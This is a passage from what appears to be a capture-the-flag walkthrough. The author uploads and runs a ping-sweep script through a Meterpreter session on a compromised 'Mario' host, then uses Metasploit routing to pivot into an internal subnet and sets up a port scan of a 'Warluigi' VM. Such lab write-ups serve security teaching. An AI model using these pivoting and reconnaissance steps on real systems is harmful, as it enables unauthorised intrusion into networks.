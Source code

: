 As Nmap wasn't available on the Mario host, I grabbed a host discovery script and modified it to scan on the 192.168.122.0 subnet:

```bash
#!/bin/sh
pingf(){
    if ping -w 2 -q -c 1 192.168.122."$1" > /dev/null ;
    then
        printf "IP %s is up\n" 192.168.122."$1"
    fi
}

main(){

    NUM=1
    while [ $NUM -lt 255  ];do
        pingf "$NUM" &
        NUM=$(expr "$NUM" + 1)
    done
    wait
}

main
```

I then uploaded and executed it on the Mario host to identify what address had been assigned to the Warluigi host, which was `192.168.122.122`:

```shell_session
meterpreter > upload host_discovery.sh
[*] uploading  : host_discovery.sh -> host_discovery.sh
[*] uploaded   : host_discovery.sh -> host_discovery.sh
meterpreter > shell
Process 1671 created.
Channel 20 created.
chmod +x host_discovery.sh
./host_discovery.sh
IP 192.168.122.1 is up
IP 192.168.122.122 is up
```

Next, I used Metasploit's pivoting functionality to route traffic to `192.168.122.0/24` via the Meterpreter session I had established to the Mario host and proceeded to run a port scan on the Warluigi VM:

```shell_session
msf exploit(handler) > route add 192.168.122.0 255.255.255.0 5
[*] Route added
msf exploit(handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.122.0      255.255.255.0      Session 5

msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.122.122
RHOSTS => 192.168.122.122
msf auxiliary(tcp) > set THREADS 50
THREADS => 50
msf auxiliary(tcp) > set PORTS 22-25, 80, 443, 8180
PORTS => 22-25, 80, 443, 8180
msf auxiliary(tcp) > run
```
